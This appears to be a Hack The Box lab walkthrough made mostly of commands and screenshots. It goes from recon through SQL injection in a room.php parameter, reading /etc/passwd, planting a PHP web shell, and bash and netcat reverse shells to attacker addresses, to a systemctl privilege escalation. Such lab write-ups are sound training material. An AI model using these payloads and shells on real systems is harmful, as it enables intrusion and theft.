 ```
SQL injection
Webshell
sudo -l
Reverse Shell - Bash
LinEnum
PrivEsc - systemctl
```

```
nmap -sS -sC -sV -T5 -Pn 10.10.10.143
```
![image](https://user-images.githubusercontent.com/33616880/231966154-8ab1d289-572e-4097-8072-e2a664de70ca.png)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.10.143/FUZZ -fc 403 -e .aspx,.php,.txt,.html
```
![image](https://user-images.githubusercontent.com/33616880/231966267-6a6058e9-6223-44d8-acd9-72244a55407f.png)


```
http://10.10.10.143/room.php?cod=2
```
![image](https://user-images.githubusercontent.com/33616880/231967239-40ac1ae1-c35f-4c56-9740-62bd236b9436.png)


```
http://10.10.10.143/room.php?cod=2%20and%201=1
```
![image](https://github.com/regarmulia/HTB/assets/33616880/954aab73-ed1c-419c-8120-3785d666d6ad)

![image](https://user-images.githubusercontent.com/33616880/231967993-6a81e947-d988-4e23-9042-a8ba3eb2bca0.png)

```
https://book.hacktricks.xyz/pentesting-web/sql-injection
http://10.10.10.143/room.php?cod=2%20and%20sleep(1)
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ddf2a7c4-21db-4f02-b720-c395f310f43d)

![image](https://github.com/regarmulia/HTB/assets/33616880/3d1f65d6-d527-4714-96fd-937e21ca143e)


```
http://10.10.10.143/room.php?cod=2%20UNION%20SELECT%201,2,3,4,5,6
```
![image](https://github.com/regarmulia/HTB/assets/33616880/e3378196-1f96-4498-80f3-f98126a10cb9)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%20@@version,2,3,4,5,6,7
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d80371a3-ed4b-47d9-affa-b27701b9a6e0)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,2,gRoUp_cOncaT(0x7c,schema_name,0x7c),4,5,6,7%20fRoM%20information_schema.schemata
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,load_file(%27/etc/passwd%27),3,4,5,6,7
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1c55adc4-ecb8-406c-96cd-15128c20c4ba)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,load_file(%27/etc/passwd%27),3,4,5,6,7%20into%20outfile%20%27/var/www/html/hacked.txt%27
http://10.10.10.143/hacked.txt
```
![image](https://github.com/regarmulia/HTB/assets/33616880/35d70a8f-2890-487a-a5a3-fc324b50d5e8)


```
http://10.10.10.143/room.php?cod=-2%20UNION%20SELECT%201,%27%3C?php%20system($_REQUEST[%22exec%22]);?%3E%27,3,4,5,6,7%20into%20outfile%20%27/var/www/html/pwned.php%27
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=whoami'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/726e93c7-7eaa-4d83-9219-6744746e6189)


```
nc -nlvp 1234
curl -X POST http://10.10.10.143/pwned.php --data-urlencode 'exec=bash -c "bash -i >& /dev/tcp/10.10.14.3/1234 0>&1"'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/ad41ebca-08db-4c49-ab26-25955092ca08)


```
sudo -l
```
![image](https://github.com/regarmulia/HTB/assets/33616880/04e0ed8e-6136-4ade-bbda-432ac36ccb07)


```
echo 'bash -c "bash -i >& /dev/tcp/10.10.14.3/4444 0>&1"' > /tmp/shell.sh
sudo -u pepper /var/www/Admin-Utilities/simpler.py –p
nc -nlvp 4444
```
![image](https://github.com/regarmulia/HTB/assets/33616880/58d9e518-fc9b-448b-8017-e562b141876b)


```
find / -perm -4000 2>/dev/null
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5cef9fdc-3e1c-4ae1-b0a2-b2382661c442)


```
wget 10.10.14.8/LinEnum.sh
./LinEnum.sh
```
![image](https://user-images.githubusercontent.com/33616880/231979671-3ca30d26-3d40-412d-9cca-28b91cfaf839.png)
![image](https://user-images.githubusercontent.com/33616880/231979698-96af9d79-761b-4c32-a848-0c182173242e.png)


https://gtfobins.github.io/gtfobins/systemctl/
```
[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.8 443'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target
```
```
systemctl link /home/pepper/pwn.service
systemctl start pwn
```
![image](https://user-images.githubusercontent.com/33616880/231983233-c91e3200-561c-4995-8062-6cec3de97037.png)
![image](https://user-images.githubusercontent.com/33616880/231983256-1099084a-99c6-4477-a764-4c9530724f65.png)



